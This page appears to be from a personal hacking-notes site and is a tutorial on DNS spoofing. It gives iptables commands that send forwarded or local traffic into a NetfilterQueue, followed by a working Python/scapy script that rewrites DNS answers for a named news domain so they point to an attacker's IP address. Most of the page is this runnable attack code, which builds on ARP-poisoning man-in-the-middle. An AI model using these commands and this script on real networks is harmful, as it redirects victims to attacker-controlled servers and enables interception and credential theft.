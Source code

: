 ```yaml
---
title: "DNS spoofing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can spoof DNS answers, by modifying the rdata field in the DNS Response request packet.

After spoofing the rdata field will contain a spoofed ip address of a attacker server instead of the original servers IP address.

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```Shell
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

```python
import netfilterqueue
from scapy.all import IP
import scapy.all as scapy


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "nrc.nl" in qname:
            print("[+] Spoofing target")
            answer = scapy.DNSRR(rrname=qname, rdata="192.168.178.12")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(str(scapy_packet))

    packet.accept()



queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
